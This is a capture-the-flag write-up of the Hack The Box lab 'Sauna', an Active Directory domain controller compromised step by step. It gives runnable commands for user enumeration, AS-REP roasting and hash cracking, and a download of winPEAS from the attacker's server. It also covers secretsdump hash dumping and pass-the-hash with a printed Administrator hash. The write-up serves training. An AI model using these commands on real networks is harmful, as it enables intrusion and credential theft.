### Summary
Sauna is an AD (Active Directory) box on HTB that features a DC (Domain Controller) that we have to get a foothold on without any credentials to start off with. This box is amazing practice for AD where you have to do some passive enumeration in order to find a valid user which you can then perform AS-REP roasting. From there your required to notice credentials that are being used to log in for another account. After that, you simply need to dump the NTLM hashes using those new credentials and you are able to perform a pass the hash attack to get in as `adminsitrator`. 

### 1. Enumeration
##### 1.1 Nmap Scan
Starting off with a simple `nmap` scan, I was able to see that I was very likely dealing with a DC, judging by the open ports such as `ldap`, `kerberos` and others. Since I wasn't given credentials for the domain, I assumed I would be getting my foothold via some form of credential leak although there are other ways to get footholds such as getting access to `ssh` keys (There are many more ways).



The important ports to note for enumeration are primarily SMB, HTTP, and RPC where it is easy to get quick wins and they usually have the largest attack surface (although it is important to enumerate everything). From this scan we can also note that the domain is `EGOTISTICAL-BANK.LOCAL`.



##### 1.2 SMB & NetBios (Port: 445, 139)
I started by seeing if I had access to view any shares and if anonymous sessions were allowed. Unfortunately, using various tools my journey here came to a quick end as there was nothing useful here (without credentials at least).

I used `smbclient` to try to view shares from a null session but that was giving trouble so I decided to switch over to using `netexec` to attempt the same thing. 

Using `netexec` to view shares from a null session:
```bash
netexec smb 10.10.10.175 -u '' -p '' --shares
```



Using `enum4linux` to enumerate ports 139 and 445:
```bash
enum4linux -a 10.10.10.175
```
To be thorough, I used `enum4linux` for one last check to see if I could extract anything useful, but that also yielded nothing except for "NT_STATUS_ACCESS_DENIED".



##### 1.3 RPC (Port: 135 and 593)
Similar to SMB, we can check if we can take advantage of a null session to enumerate the domain and users.

Using `rpcclient`: 
```bash
rpcclient -U '' -N 10.10.10.175
```



Once connected, there are a lot of useful commands that can be used, but with a null session you are usually limited to what you can run. The main thing I wanted to check for were domain users, but my efforts were fruitless once again since I was met with a "NT_STATUS_ACCESS_DENIED".



##### 1.4 HTTP (Port: 80)
One thing to note, especially for AD (Active Directory) engagements, is that websites can be a gold mine for getting useful information about users. The first thing to check for asides from trying to exploit the website is to start with some __passive enumeration__ (which is usually really overlooked) to see the names of people that work there that might be mentioned on the _contact_ page or _about us_ page. This can then be leveraged by making a user list for potential valid users in the domain.

Going to `/about.html`, they ever so generously provide us with the first and last name of 6 people that work there. 



There are many different username conventions for active directory but here is an example of a list of potential valid usernames that can be used for the user `Hugo Bear` (They are not case sensitive). One thing to note is that once we are able to find one valid user, the username convention will be cracked for the rest of the users since it typically follows the same pattern. 

```
Hugo.Bear
HBear
H.Bear
BHugo
B.Hugo
HugoBear
BearHugo
Bear.Hugo
Bear.H
Hugo.B
HugoB
```

### 2. Foothold
##### 2.1 Bruteforcing Usernames
Once I created a user list, I used a tool called `kerbrute` to enumerate for users. `Kerbrute` is an extremely useful tool that can be used for a variety of attacks. In this case, its able to check valid usernames via `kerberos`(Port 88). Essentially, `kerberos` is an authentication protocol primarily used in AD environments by DCs to verify users and services in the domain.

Using `kerbrute`:
```bash
./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 ~/Desktop/user.list
```



From this, we now know that `FSmith` is a valid user with pre auth not required meaning he is susceptible to AS-REP roasting for dumping TGT tickets. 

##### 2.2 Cracking The Hash
Although `kerbrute` dumped the TGT ticket hash, this hash is not compatible with `hashcat` and it utilizes a stronger encryption type (type 18: https://techcommunity.microsoft.com/blog/coreinfrastructureandsecurityblog/decrypting-the-selection-of-supported-kerberos-encryption-types/1628797). To get a more preferable hash, I used `GetNPUsers.py` which requests for a weaker encryption type for the TGT ticket (type 23) making it easier to crack. 

Using `GetNPUsers.py`:
```bash
GetNPUsers.py -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/FSmith
```



Simply using module 18200 on `hashcat` reveals the password.



Using `hashcat` to crack the hash:
```bash
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
```



##### 2.3 Spray 'N Pray
Anytime you discover a password in AD, you should spray it against anything and everything to see what you have access to and its a great way of discovering password reuse in the domain. From the initial `nmap` scan, I started spraying everything I could. This led to me getting my foothold via `winrm` over the port 5985.



### 3. Privilege Escalation
##### 3.1 Winpeas Enumeration
Once I had access via `evil-winrm`, I downloaded `winPEAS` from my attacking machine onto the victim machine to further enumerate it for PE (Privilege Escalation). 

Downloading `winPEAS` from my python http server:
```powershell
Invoke-WebRequest -Uri "http://10.10.16.6:8082/winPEASany.exe" -OutFile "C:\Users\FSmith\Documents\winPEASany.exe"
```

After running `winPEAS` and viewing the output I found auto logon credentials for `svc_loanmanager`:



##### 3.2 Dumping Hashes
After getting the credentials for `svc_loanmanager`, I tried running `secretsdump.py`, but kept getting errors about incorrect username or password. After giving `bloodhound` a quick look (I had it running as soon as I got credentials for `fsmith`), I realized the user was actually called `svc_loanmgr`. 



After correcting the username, I got the hash dump from `secretsdump.py`.



##### 3.3 Pass The Hash 
I tried cracking the `Administrator` hash, but I wasn't able to crack it with `rockyou.txt`, but that didn't matter since I could just do a pass the hash attack. 

*NOTE: Since this is a NTLM hash that `secretsdump.py` gives us, you only need the `NT` part of the hash*

Using `crackmapexec` to verify it works:
```bash
crackmapexec winrm 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```



Now all that's left is to connect via `evil-winrm`, but this time utilizing the `Administrator` NTLM hash we got.

Using `evil-winrm` to connect:
```bash
evil-winrm -i 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```



### Conclusion
This was definitely one of the harder "Easy" boxes on HTB (for me at least), but AD machines usually have a lot more to enumerate in general. Getting the foothold was where most of the meat of this challenge was in my opinion. Nonetheless, it was a really fun box to work on and there was a lot to learn from it such as the importance of passive recon for AD and to double check usernames (I wasted too much time on that `secretsdump.py` part lol).
